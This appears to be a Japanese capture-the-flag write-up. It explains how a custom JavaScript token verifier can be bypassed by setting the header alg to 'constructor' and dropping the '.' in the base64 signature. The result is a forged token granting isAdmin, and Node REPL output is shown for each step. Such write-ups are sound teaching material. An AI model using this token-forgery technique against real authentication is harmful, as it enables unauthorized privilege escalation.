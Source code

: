```js
const verify = (token, secret) => {
	const { header, payload, signature: expected_signature } = parseToken(token);

	const calculated_signature = createSignature(header, payload, secret);
	
	const calculated_buf = Buffer.from(calculated_signature, 'base64');
	const expected_buf = Buffer.from(expected_signature, 'base64');

	if (Buffer.compare(calculated_buf, expected_buf) !== 0) {
		throw Error('Invalid signature');
	}

	return payload;
}
```

トークンのシグネチャ部分を再計算して、送信されたシグネチャと比較している。  
`Buffer.compare(calculated_buf, expected_buf)`が0になるようにしないといけない。

- `calculated_buf`

シグネチャ計算時の箇所を見ると、`algorithms`のキーに任意の文字列を入れられる。

```js
const signature = algorithms[header.alg.toLowerCase()](data, secret);
```

algorithmsは生成されたオブジェクトのため、`algorithms["constructor"]`が使える。

```node
> algorithms = {}
{}
> algorithms["constructor"]
[Function: Object]
> signature = algorithms["constructor"]("header.payload","secret")
[String: 'header.payload']
```

後は組み立てるだけ。

```text
header: eyJhbGciOiJjb25zdHJ1Y3RvciJ9  <- {"alg":"constructor"}
payload: eyJpc0FkbWluIjp0cnVlfQ       <- {"isAdmin":true}
```

signatureは`${header}.${payload}`ではあるが、トークン内に`.`を3つ以上使えないためそのままは不可。  
`Buffer.from(<文字列>, 'base64')`では<文字列>の`.`を消しても同じ値になることを利用する。

```node
> Buffer.from('eyJhbGciOiJjb25zdHJ1Y3RvciJ9.eyJpc0FkbWluIjp0cnVlfQ', 'base64')
<Buffer 7b 22 61 6c 67 22 3a 22 63 6f 6e 73 74 72 75 63 74 6f 72 22 7d 7b 22 69 73 41 64 6d 69 6e 22 3a 74 72 75 65 7d>
> Buffer.from('eyJhbGciOiJjb25zdHJ1Y3RvciJ9eyJpc0FkbWluIjp0cnVlfQ', 'base64')
<Buffer 7b 22 61 6c 67 22 3a 22 63 6f 6e 73 74 72 75 63 74 6f 72 22 7d 7b 22 69 73 41 64 6d 69 6e 22 3a 74 72 75 65 7d>
```

